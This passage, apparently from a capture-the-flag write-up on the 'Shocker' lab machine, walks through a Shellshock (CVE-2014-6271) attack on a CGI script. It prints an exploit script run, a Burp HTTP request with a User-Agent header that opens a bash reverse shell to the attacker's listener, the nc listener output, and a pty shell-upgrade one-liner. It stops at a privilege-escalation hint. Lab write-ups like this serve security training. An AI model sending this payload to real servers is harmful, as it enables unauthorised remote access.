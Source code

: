 Note: Running this CVE in metasploit will work.

https://www.exploit-db.com/exploits/34900

```console
└──╼ [★]$ ./shell.py payload=reverse rhost=10.129.67.229 lhost=10.10.14.35 lport=4444
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-sys/entropysearch.cgi
[*] 404 on : /cgi-sys/entropysearch.cgi
[-] Trying exploit on : /cgi-sys/defaultwebpage.cgi
[*] 404 on : /cgi-sys/defaultwebpage.cgi
[-] Trying exploit on : /cgi-mod/index.cgi
[*] 404 on : /cgi-mod/index.cgi
[-] Trying exploit on : /cgi-bin/test.cgi
[*] 404 on : /cgi-bin/test.cgi
[-] Trying exploit on : /cgi-bin-sdb/printenv
[*] 404 on : /cgi-bin-sdb/printenv

```

However this page here shows how to do the same exploit manually with a few modifications of our own.

https://www.exploit-db.com/docs/48112

In burpsuite we sent the page http://10.129.67.235/cgi-bin/user.sh to the repeater and inputed our payload in the user agent.

Set up the listener and run the command in burpsuite.

```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.129.67.235
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.35/1235 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
After getting in my shell was really bad with everything I typed being double. However the commands were still read the same. Upgrading my shell did not do anything to help.

So if my commands look weird its fine, Keeping it that way for authenticity.

```console
└──╼ [★]$ nc -lvnp 1235
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.129.67.235.
Ncat: Connection from 10.129.67.235:47048.
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ wwhhooaammii

shelly
shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'<-bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'                       

shelly@Shocker:/usr/lib/cgi-bin$ lsls

user.sh
```
1st things first, running ```sudo -l``` gives us our next step for privilege escalation. I am able to run perl as sudo!
